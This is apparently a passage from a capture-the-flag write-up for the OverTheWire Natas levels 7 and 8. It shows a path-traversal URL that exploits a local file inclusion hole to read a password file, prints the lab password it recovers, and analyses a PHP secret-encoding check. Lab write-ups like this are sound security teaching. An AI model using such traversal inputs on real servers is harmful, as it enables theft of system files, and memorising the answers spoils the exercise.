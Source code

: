 ```markup
<a href="index.php?page=home">Home</a>  
<a href="index.php?page=about">About</a>
```

HREFs look vulnerable to LFI

```text
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/natas_webpass/natas8
```

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Natas 8

click view source

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

A string has been encoded with the function encodeSecret.

base64\_encode — Encodes data with MIME base64  
[https://www.php.net/base64\_encode](https://www.php.net/base64_encode)

strrev — Reverse a string  
[https://www.php.net/manual/en/function.strrev.php](https://www.php.net/manual/en/function.strrev.php)

bin2hex — Convert binary data into hexadecimal representation  
[https://www.php.net/manual/en/function.bin2hex.php](https://www.php.net/manual/en/function.bin2hex.php)

We need to create a decodeSecret function. Lets find commands to reverse the encoding.

base64\_decode  
[https://www.php.net/manual/en/function.base64-decode.php](https://www.php.net/manual/en/function.base64-decode.php)

string reverse  
[https://www.php.net/manual/en/function.strrev.php](https://www.php.net/manual/en/function.strrev.php)
